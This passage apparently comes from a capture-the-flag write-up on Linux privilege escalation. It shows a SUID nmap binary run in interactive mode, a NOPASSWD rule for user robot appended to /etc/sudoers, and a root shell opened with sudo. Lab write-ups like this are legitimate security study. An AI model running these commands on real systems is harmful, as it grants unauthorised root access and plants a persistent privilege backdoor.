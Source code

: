 
`nmap` has an suid. We can take advantage of this by prompting a “interactive” 


    /usr/local/bin/nmap --interactive

![](https://d2mxuefqeaa7sj.cloudfront.net/s_405DC3F9939739CBD4ADA0F1F065156E64A326BD68412B70034B9CB673AA702F_1552009533201_image.png)


we are not executing commands as root!

Since we have robots password we’ll just make him a sudoers

    ! echo "robot ALL =(ALL) NOPASSWD: ALL" >> /etc/sudoers

![](https://d2mxuefqeaa7sj.cloudfront.net/s_405DC3F9939739CBD4ADA0F1F065156E64A326BD68412B70034B9CB673AA702F_1552009829948_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_405DC3F9939739CBD4ADA0F1F065156E64A326BD68412B70034B9CB673AA702F_1552009875670_image.png)


we can no call an actual shell as root

    sudo /bin/sh

![](https://d2mxuefqeaa7sj.cloudfront.net/s_405DC3F9939739CBD4ADA0F1F065156E64A326BD68412B70034B9CB673AA702F_1552009988088_image.png)


Bring me the root!

-exec


